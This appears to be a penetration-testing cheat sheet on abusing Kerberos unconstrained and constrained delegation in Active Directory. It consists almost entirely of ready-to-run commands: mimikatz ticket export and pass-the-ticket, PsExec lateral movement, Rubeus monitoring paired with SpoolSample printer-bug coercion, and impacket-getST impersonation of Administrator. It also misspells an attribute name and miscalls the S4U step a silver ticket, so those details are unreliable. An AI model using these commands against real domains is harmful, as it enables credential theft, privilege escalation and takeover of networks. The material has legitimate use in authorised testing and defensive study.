 ### Unconstrained Delegation
#### Condition
- `useraccountcontrol` is set to `TRUSTED_FOR_DELEGATION`

#### Execution
* in case there is a ticket of high value user
1. export the ticket
```mimikatz
sekurlsa::tickets /export
```

2. pass the ticket
```mimikatz
kerberos::ptt <kirbi>
```

3. abuse ticket
```cmd
.\PsExec.exe \\<host> cmd
```


* in case named pipe of host is accessible
1. check pipe access
```powershell
dir \\<target_host>\pipe\spoolss
```

2. setup Rubeus monitor
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<target_host>$ /nowrap
```

3. invoke print spooler
```cmd
.\SpoolSample.exe <target_host> <monitor_host>
```

4. pass the ticket
```
.\Rubeus.exe ptt /ticket:<ticket>
```

### Constrained Delegation
#### Condition
- compromised user has `msds-AllowedTodDlegateTo` property

##### Execution
1. get a silver ticket and inject
```sh
impacket-getST -spn <spn> -impersonate Administrator <domain>/<user>:<password> -dc-ip <dc>
```

```sh
export KRB5CCNAME=<ccache>
```
